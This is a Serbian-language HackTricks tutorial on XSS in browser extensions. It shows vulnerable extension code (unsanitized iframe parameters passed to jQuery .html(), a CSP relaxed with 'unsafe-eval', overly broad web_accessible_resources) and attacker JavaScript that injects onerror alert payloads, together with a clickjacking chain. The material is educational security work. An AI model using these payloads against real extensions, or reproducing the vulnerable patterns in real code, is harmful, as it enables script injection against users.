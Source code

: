 # BrowExt - XSS Example

<details>

<summary><strong>Naučite kako da hakujete AWS od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Cross-Site Scripting (XSS) putem Iframe-a

U ovom scenariju, **content script** je implementiran kako bi instancirao Iframe, koji uključuje URL sa upitnim parametrima kao izvor Iframe-a:

```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```

Javno dostupna HTML stranica, **`message.html`**, je dizajnirana da dinamički dodaje sadržaj u tijelo dokumenta na osnovu parametara u URL-u:

```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```

Na stranici protivnika izvršava se zlonamerni skript koji menja parametar `content` izvora Iframe-a kako bi se unela **XSS payload**. To se postiže ažuriranjem izvora Iframe-a da uključuje štetnu skriptu:

```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```

Preterasno dozvoljena politika bezbednosti sadržaja, kao što je:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

omogućava izvršavanje JavaScript-a, čineći sistem podložnim XSS napadima.

Alternativni pristup za izazivanje XSS-a uključuje kreiranje Iframe elementa i postavljanje izvora na uključivanje štetnog skripta kao parametra `content`:

```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```

## DOM-bazirani XSS + ClickJacking

Ovaj primer je preuzet iz [originalnog posta](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Osnovni problem proizlazi iz DOM-bazirane ranjivosti Cross-site Scripting (XSS) koja se nalazi u **`/html/bookmarks.html`**. Problematicni JavaScript deo, koji je deo **`bookmarks.js`**, je detaljno opisan ispod:

```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```

Ovaj odlomak dohvaća **vrednost** iz polja za unos **`txtName`** i koristi **spajanje nizova da generiše HTML**, koji se zatim dodaje u DOM korišćenjem jQuery-ove funkcije `.append()`.

Uobičajeno, Chrome ekstenzija koristi Content Security Policy (CSP) koja bi sprečila ovakve ranjivosti. Međutim, zbog **opuštanja CSP-a sa 'unsafe-eval'** i korišćenja jQuery-ovih metoda manipulacije DOM-om (koje koriste [`globalEval()`](https://api.jquery.com/jquery.globaleval/) da bi prosledile skripte funkciji [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/eval) prilikom umetanja u DOM), eksploatacija je i dalje moguća.

Iako je ova ranjivost značajna, njena eksploatacija obično zavisi od interakcije korisnika: poseta stranici, unošenje XSS payloada i aktiviranje dugmeta "Dodaj".

Da bi se ova ranjivost poboljšala, eksploatiše se sekundarna ranjivost **clickjacking**-a. Manifest Chrome ekstenzije prikazuje opsežnu politiku `web_accessible_resources`:

```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```

Posebno, stranica **`/html/bookmarks.html`** je podložna framingu, te je ranjiva na **clickjacking**. Ova ranjivost se koristi za framing stranice unutar sajta napadača, prekrivajući je DOM elementima kako bi se prevarantski redizajnirao interfejs. Ova manipulacija navodi žrtve da nenamerno interaguju sa podrazumevanim proširenjem.

## Reference

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
